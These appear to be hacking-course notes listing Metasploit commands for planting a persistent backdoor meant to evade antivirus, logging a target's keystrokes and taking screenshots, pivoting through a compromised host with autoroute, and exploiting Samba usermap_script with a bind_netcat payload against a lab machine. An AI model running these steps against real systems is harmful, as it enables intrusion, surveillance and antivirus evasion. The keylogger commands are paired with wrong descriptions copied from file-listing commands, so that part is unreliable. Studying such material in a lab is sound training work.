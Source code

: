 1. Using a veil-evasion
   - Does not always work
2. Using persistence module
   - Detectable by antivirus programs
3. Using metasploit + veil-evasion -> More robust + undetectable by Antivirus
   - > use exploit/windows/local/persistence
   - > set session [session id]
   - > set exe:custom [backdoor location]
   - > exploit

## chapter 98
```sh
show advanced
sessions -K       # kill session
```

## chapter 99

Key logging
log all mouse/keyboard events

- > keyscan_start - shows current working directory
- > keyscan_dump - lists files in the current working directory
- > keyscan_stop - changes working directory to [location]
- > screenshot - take a screenshot of the target computer

## chapter 100

pivoting

- use the hacked device as a pivot.
- try to gain access to other devices in the network.

## chapter 101

Pivoting using autoroute

1. Use it 
   > use post/windows/manage/autoroute
2. Set subnet of target network
   > set subnet [subnet]
3. Set session id
   > set session [id]
4. exploit
   > exploit

```msf
use exploit/multi/samba/usermap_script
set RHOST 10.20.15.4       # set the ip of meterploitable
show payloads
set PAYLOAD cmd/unix/bind_netcat
show options
exploit
```
